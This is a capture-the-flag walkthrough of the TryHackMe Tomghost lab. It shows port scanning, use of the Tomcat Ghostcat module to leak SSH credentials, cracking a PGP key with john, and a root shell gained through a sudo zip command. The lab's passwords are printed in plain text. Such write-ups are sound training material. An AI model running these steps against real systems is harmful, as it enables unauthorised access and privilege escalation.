 # Tomghost Room Walkthrough

Link: [TryHackMe Tomghost Room](https://tryhackme.com/r/room/tomghost)

---

## 1. Scanning Ports

### Initial Scan with Rustscan
Start by using `Rustscan` to quickly identify open ports:

```bash
rustscan -a 10.10.XX.XX
```
![Screenshot 2025-01-20 200231](https://github.com/user-attachments/assets/81ae0c69-bab5-4ab7-a3e4-552d87898a1a)

We will find 4 ports open:

```bash
22,53,8009,8080
```

### Deep Scan with Nmap
Use `Nmap` for a more detailed scan of the identified ports:

```bash
nmap -A -p 22,53,8009,8080 10.10.XX.XX
```
![Screenshot 2025-01-20 201436](https://github.com/user-attachments/assets/a1d40883-ac1b-4057-8cc7-dd1d194ff6f3)

- We found an HTTP page available here.
- I also tried to exploit each port, but it didn't lead anywhere.
- I also tried to enumerate the page on port 8080 with Ffuf. I found the manager page, but we don't have access to it.
![Screenshot 2025-01-20 202700](https://github.com/user-attachments/assets/bdff35f3-8bb5-45f5-a4c4-75f2f37901c9)

So, I tried to find any exploit for the page version Tomcat 9.0.30.

---

## 2. Enumerating Apache Tomcat

I used Metasploit to find any exploit for it. By searching with `Tomcat 9.0.`, I found:

```bash
auxiliary(admin/http/tomcat_ghostcat)
```
I used it to see where it would lead.
![Screenshot 2025-01-20 185500](https://github.com/user-attachments/assets/20e6b74f-e0e3-402f-9ab9-cffa841c4f52)

![Screenshot 2025-01-20 185629](https://github.com/user-attachments/assets/8e76eeba-051d-4fba-9999-ec89a1c1929b)

We found a username and password:

```bash
skyfuck:8730281lkjlkjdqlksalks
```

So, I tried to log in to SSH with these credentials, and I succeeded.

I found there are 2 files. I downloaded the 2 files with:

```bash
scp skyfuck@10.10.232.53:tryhackme.asc .
scp skyfuck@10.10.232.53:credential.pgp .
```
![Screenshot 2025-01-20 210231](https://github.com/user-attachments/assets/0e9d757e-b26e-4d9e-b3bc-c9aed5f178a5)

After reading the 2 files, I found that they are encrypted credentials. I searched on Google and found that we can decrypt the `.asc` file with John the Ripper using `gpg2john`.
![Screenshot 2025-01-20 212602](https://github.com/user-attachments/assets/8eea2de6-1249-423a-8f03-bf7c4a519bca)

```bash
gpg2john tryhackme.asc > crack

john --wordlist=/usr/share/wordlists/rockyou.txt crack
```

And we got the credential file password:

```bash
alexandru
```
![Screenshot 2025-01-20 190610](https://github.com/user-attachments/assets/0f6fce23-b747-4478-8aa2-5289982f2516)

Now, let's find the secrets in the files using:

```bash
gpg --import tryhackme.asc
gpg --decrypt credential.pgp 
```

(We are going to use the pass for each file.)
![Screenshot 2025-01-20 190959](https://github.com/user-attachments/assets/7889a095-98b5-4f83-a9ec-0ea8e4375d76)

And we will get Merlin's password:

```bash
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

Now, we can log in with SSH using these credentials.
![Screenshot 2025-01-20 191202](https://github.com/user-attachments/assets/7eb6af49-c3bf-4f19-9122-0e3cca47edf8)

---

## 4. Privilege Escalation

### Enumerating Sudo Commands
Check for commands with the sudo bit set:

```bash
sudo -l
```
![Screenshot 2025-01-20 191359](https://github.com/user-attachments/assets/97ca32f1-3da2-4642-8191-5054dbd4cfa1)

Here, we found the `zip` command working with sudo. Let's look on the GTFOBins site to see if there is any vulnerability in the `zip` command.
Refer to [GTFOBins](https://gtfobins.github.io/).

![Screenshot 2025-01-20 191726](https://github.com/user-attachments/assets/59126c17-4099-4a34-a81f-1ef06e0419dc)

We found a vulnerability with `zip`, so let's try the script to see if we can get root:

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
![Screenshot 2025-01-20 191858](https://github.com/user-attachments/assets/56237acd-e4cf-4d9b-9571-da6fda27e823)

And voilà, WE ARE ROOT :)!

[Use this script to get a TTY bash shell if you like]

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

---

## 7. Conclusion

By completing the challenge, we demonstrated the ability to:

- Enumerate and exploit Apache Tomcat.
- Extract credentials and use them to access the system.
- Escalate privileges to root using a vulnerability in the `zip` command.





**HAPPY HUNTING!! :)**
